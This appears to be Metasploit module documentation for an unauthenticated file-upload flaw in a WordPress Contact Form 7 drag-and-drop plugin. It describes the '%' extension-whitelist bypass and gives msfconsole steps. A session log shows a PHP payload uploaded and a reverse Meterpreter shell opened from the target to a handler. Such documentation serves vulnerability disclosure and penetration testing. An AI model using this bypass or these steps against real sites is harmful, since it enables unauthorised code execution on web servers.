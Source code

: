 ## Vulnerable Application

Drag and Drop Multiple File Upload - Contact Form 7 prior to version 1.3.4 contain a remote file upload
functionality, but is bound by a file extension whitelist.  However, this can be bypassed by appending
`%` at the end of the file, so `backdoor.php%` will pass the filter. No authentication is required for
exploitation.

At the time of writing this plugin has 20,000+ installs, and no mention of the vulnerability in the
changelog.

Plugin can be downloaded from [here](https://mega.nz/file/aQUClQKC#ZYeiTYSrPuRnwwlRavy4cqf_EXs34Tkq6KQig2RcOas).

`php-mbstring` is required for the plugin to work correctly, or else a `500` error will result in the
server logs.  No check is performed on plugin install for this.

`Contact Form 7` is also a required plugin to be installed.

No additional steps are required for exploitation such as configuring the plugins, or adding
a Contact Form (with drag and drop) to a page/post.

## Verification Steps

  1. Install wordpress and the plugins
  2. Start msfconsole
  3. Do: ```use exploits/multi/http/wp_dnd_mul_file_rce```
  4. Do: ```set rhosts```
  5. Do: ```run```
  6. You should get a shell.

## Options

## Scenarios

### Wordpress 5.4.1 with Drag and Drop Multiple File Upload - Contact Form 7 v1.3.3.2 and Contact Form 7 v5.1.9 on Ubuntu 20.04

  ```
resource (dnd.rb)> use exploits/multi/http/wp_dnd_mul_file_rce
resource (dnd.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (dnd.rb)> set verbose true
verbose => true
resource (dnd.rb)> check
[*] Checking /wp-content/plugins/drag-and-drop-multiple-file-upload-contact-form-7/readme.txt
[*] Found version 1.3.3.2 in the plugin
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (dnd.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Getting nonce
[*] Nonce: 392e81074e
[*] Attempting payload upload
[+] Payload uploaded successful
[*] Attempting to trigger at well known location
[*] Sending stage (38288 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56032) at 2020-05-30 20:57:12 -0400
[+] Deleted ReasCENA.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-33-generic #37-Ubuntu SMP Thu May 21 12:53:59 UTC 2020 x86_64
Meterpreter : php/linux
  ```
